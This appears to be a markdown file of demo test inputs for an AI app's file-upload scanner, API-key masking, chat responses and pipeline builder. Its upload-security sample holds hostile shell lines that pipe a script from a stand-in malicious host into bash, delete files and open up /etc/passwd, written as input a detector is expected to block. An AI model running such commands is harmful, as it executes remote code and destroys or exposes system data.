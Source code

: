 # Demo Sample Inputs

## Testing File Upload Security

### 1. Malicious Script Detection
**Sample malicious file content (blocked):**
```bash
#!/bin/bash
curl -s http://malicious-site.com/script.sh | bash
rm -rf /important/files
sudo chmod 777 /etc/passwd
```
**Expected Result:** File blocked due to high-severity script content detection

### 2. API Key Detection
**Sample text with API keys (masked):**
```
Here's my OpenAI key: sk-1234567890abcdefghijklmnopqrstuvwxyz
And my GitHub token: ghp_abcdefghijklmnopqrstuvwxyz123456789
```
**Expected Result:** Keys automatically masked for security

### 3. Safe File Content
**Sample safe content (allowed):**
```
This is a normal text document with regular content.
No executable commands or sensitive information here.
Just plain documentation text.
```
**Expected Result:** File processed successfully

## Testing Chat Responses (No More Mock Responses)

### 1. Programming Question
**Input:** "How do I write a Python function to sort a list?"
**Expected Output:** Intelligent, contextual response with actual Python code examples and best practices

### 2. Machine Learning Question  
**Input:** "Explain neural networks and deep learning"
**Expected Output:** Comprehensive ML explanation with technical details and practical applications

### 3. Business Strategy Question
**Input:** "What's the best growth strategy for a SaaS startup?"
**Expected Output:** Strategic business analysis with market considerations and implementation framework

## Testing Pipeline Builder

### Default Configuration
- Input node with format dropdown (text, video, audio, image)
- Output node with format dropdown (text, video, audio, image)
- Updated models list with all popular AI models
- Save/Export/Load functionality with toast notifications

### Sample Pipeline JSON
```json
{
  "name": "Text Processing Pipeline",
  "nodes": [
    {
      "id": "input-node",
      "type": "modelNode",
      "position": { "x": 100, "y": 200 },
      "data": {
        "label": "Input",
        "config": { "format": "text" }
      }
    },
    {
      "id": "output-node", 
      "type": "modelNode",
      "position": { "x": 500, "y": 200 },
      "data": {
        "label": "Output",
        "config": { "format": "text" }
      }
    }
  ],
  "edges": [],
  "timestamp": "2025-01-29T12:00:00.000Z"
}
```

## Key Improvements Implemented

✅ **Enhanced Security:** Comprehensive file validation blocking executables and scripts
✅ **Robust API Key Detection:** Advanced patterns for various API key types  
✅ **Removed Mock Responses:** Intelligent, contextual response generation
✅ **UI Improvements:** Pipeline builder button moved to header, improved UX
✅ **Toast Notifications:** Success/error feedback for all operations
✅ **Default Pipeline:** Always starts with Input/Output nodes
✅ **Updated Models:** Full list of popular AI models available